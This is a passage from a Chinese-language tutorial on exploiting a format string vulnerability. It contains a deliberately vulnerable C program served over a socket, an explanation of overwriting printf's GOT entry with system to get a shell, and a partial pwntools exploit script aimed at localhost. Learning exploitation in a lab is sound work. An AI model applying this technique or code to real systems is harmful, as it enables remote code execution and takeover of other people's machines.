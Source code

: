 内存数据dump下来后，虽然跟原始bin有很大不同，也运行不了，但是丢到ida中任然是可以看的:

![](http://img1.tuicool.com/rEvQ7vj.png!web)

## Write

二进制漏洞的最终目的都是要getshell，所以在我们获取到bin后，接下来就是要getshell了

不过之前的demo过于简单，没有什么好的getshell的方法，对demo进行下修改.

```
// fmt_test2.c
#include <stdio.h>

int main(int argc, char * argv[]) {
    char a[1024];
    while(1) 
    {
        memset(a, '\0', 1024);
        read(0, a, 1024);
        printf(a);
        fflush(stdout);
    }
    return 0;
}

// $ gcc fmt_test2.c -o fmt_test2 -m32
// $ socat TCP4-LISTEN:10001,fork EXEC:./fmt_test2
```

和之前的demo比，多了循环，不像之前一样一下就退出了

在这种情况下，我们可以很容易只依靠格式化字符串漏洞进行攻击

利用的逻辑很简单，根据之前的知识点，leak出bin，然后获取到 `printf` 函数的got表地址，然后把这个地址的值改为 `system` 函数的地址，在下次循环的时候，输入 `/bin/sh` ，则 `printf(a);` 实际执行的却是 `system('/bin/sh')`

利用过程中，第一个知识点: dump 内存数据，也就是上面的内容，得到bin后，可以很容易的获取到got表信息

接下来第二个知识点就是获取 `system` 函数的地址，不过却需要爆破跑

每次我首先获取 `printf` 函数的地址，然后再根据自己机子上 `printf` 和 `system` 函数之间的差值估测一个大概范围进行爆破，得到的数据和 `system` 函数中的一些特征数据进行对比，判断是否是system函数

这一步跳过，现在假设自己有libc库，我本地的libc中， `printf` 和 `system` 函数的差值为: `59600`

最后一步，就是通过格式化字符串内容进行写内存了，覆盖got表中的值

这里我们可以使用pwntools神器:

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level = 'debug'  
printf_got = 0x804a010  
system_add = 0xaaaaaaaa

def exec_fmt(payload):  
    p.sendline(payload)
    return p.recv()

p = remote("127.0.0.1", 10001)  
autofmt = FmtStr(exec_fmt)  
payload = fmtstr_payload(autofmt.offset, {printf_got: system_add})
```
